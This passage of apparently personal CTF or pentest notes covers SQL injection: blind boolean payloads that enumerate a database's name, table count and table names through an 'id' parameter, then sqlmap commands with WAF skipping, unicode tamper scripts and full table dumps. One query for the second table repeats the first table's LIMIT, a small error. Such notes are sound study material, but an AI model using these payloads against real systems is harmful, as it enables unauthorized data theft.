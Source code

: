 
***
### Brute force the `LIKE` parameter

- We can brute force the param `LIKE` to get the table name

		/a6d92f8421/fetch?id=1 AND database() LIKE '______'
		level5 found as valid name

- Count tables in db  

		/a6d92f8421/fetch?id=1 AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())=2
		2 found as valid count

- Table1 name length  

		/a6d92f8421/fetch?id=1 AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)=6

- Query to get name  

	- We can brute force the param `LIKE` to get the table name

			/a6d92f8421/fetch?id=1 AND (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) LIKE '______'
			albums found

- *Table 2 name length*  

		/a6d92f8421/fetch?id=1 AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1)=6

- *Query to get name*  

	- We can brute force the param `LIKE` to get the table name

			/a6d92f8421/fetch?id=1 AND (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) LIKE '______'
			photos found

- Then SQLMap to dump the tables:

		sqlmap -u "http://35.237.57.141:5001/b09a24aa14/fetch?id=2" --method GET --dump -D level5 -T photos -p id --code 200 --skip-waf --random-agent --threads 10 -o

## SQLMap (Automatic enumeration)
https://thegreycorner.com/2017/01/05/exploiting-difficult-sql-injection.html
https://github.com/sqlmapproject/sqlmap/wiki/Usage  
https://forum.bugcrowd.com/t/sqlmap-tamper-scripts-sql-injection-and-waf-bypass/423  
***
**Before checking anything, check the header to see if the website is using unicode encoding or something else. If this is the case, we need to convert everything in unicode with cyberchef or zap.**  

https://0xdf.gitlab.io/2020/09/19/htb-multimaster.html  

	sqlmap -r colleagues.request --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch --proxy http://127.0.0.1:8080 --dbs
	sqlmap -r colleagues.request --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch --proxy http://127.0.0.1:8080 --dump-all --exclude-sysdbs
***
### Standard command  
